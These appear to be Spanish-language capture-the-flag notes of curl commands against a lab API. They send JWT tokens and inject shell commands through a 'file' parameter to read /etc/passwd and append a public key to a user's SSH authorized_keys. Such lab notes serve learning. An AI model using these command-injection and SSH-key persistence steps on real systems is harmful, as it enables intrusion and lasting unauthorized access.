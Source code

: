 ## Enviar autenticacion con tokens

*Nota: El -h significa HEADER*

	curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJiYTJmOGRhMTBjNzA0NjFjNWY2OGIiLCJuYW1lIjoiZWxsaW90IiwiZW1haWwiOiJlbGxpb3RAZ21haWwuY29tIiwiaWF0IjoxNjM5Njg3MjM0fQ.lRpWXAk9QdZv_1lKlRw8zagXjhBWaZ66SSn0HwBGp60' http://10.10.11.120:3000/api/priv

## Envenenar variables de entorno API
*nota: ?file=index.js es el archivo principal al cual mandaremos comandos*
*Para concatenar usaremos el ; para separar del script principal*
*El comando sed 's/\\n/\n/g' sirve para darle un formato mas amigable*

	curl -X GET -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJmZDQ1MTgwOTYxNDA0NjQxMWE5NmMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM5OTYxOTk2fQ.Z3GHUPK4y6nZ8oThGuuCLHLOSaXGWuBsd8zCTxTgFdI' 'http://10.10.11.120:3000/api/logs?file=index.js;cat+/etc/passwd' | sed 's/\\n/\n/g'

## Enviar comandos encodeados en formato URL
	curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJmZDQ1MTgwOTYxNDA0NjQxMWE5NmMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM5OTYxOTk2fQ.Z3GHUPK4y6nZ8oThGuuCLHLOSaXGWuBsd8zCTxTgFdI' -G --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" 'http://10.10.11.120/api/logs'

## Enviar un user-agent personalizado
`$ curl -A "user-agent" -L http://10.10.20.15/`
